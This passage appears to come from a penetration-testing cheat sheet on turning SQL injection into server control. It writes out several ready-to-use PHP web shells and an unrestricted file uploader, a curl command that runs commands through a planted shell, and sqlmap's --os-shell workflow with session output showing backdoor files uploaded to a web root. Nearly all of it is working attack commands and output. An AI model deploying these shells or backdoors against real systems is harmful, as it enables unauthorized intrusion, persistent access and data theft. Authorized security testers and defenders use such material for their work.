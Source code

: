 ```bash
# Step 3: Test web shell access
curl http://www.example.com/shell.php?cmd=ls+-la
```

**Alternative Web Shells:**
```bash
# PHP command shell
echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php

# PHP with output formatting
echo '<?php if(isset($_GET["cmd"])){ echo "<pre>"; system($_GET["cmd"]); echo "</pre>"; } ?>' > advanced.php

# Simple file uploader
echo '<?php if(isset($_FILES["file"])){ move_uploaded_file($_FILES["file"]["tmp_name"], $_FILES["file"]["name"]); } ?>' > upload.php
```

#### Automated OS Shell

**Direct OS Shell Access:**
```bash
# Automated OS shell deployment
sqlmap -u "http://www.example.com/?id=1" --os-shell

# SQLMap will:
1. Check DBA privileges
2. Determine web server language (PHP/ASP/JSP)
3. Find web root directory
4. Upload backdoor files
5. Provide interactive shell
```

**OS Shell Deployment Process:**
```
which web application language does the web server support?
[1] ASP
[2] ASPX  
[3] JSP
[4] PHP (default)
> 4

what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, ...') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1

[INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpumgzr.php
[INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpbznbe.php
[INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la
command standard output:
---
total 156
drwxrwxrwt 1 www-data www-data   4096 Nov 19 18:06 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
```
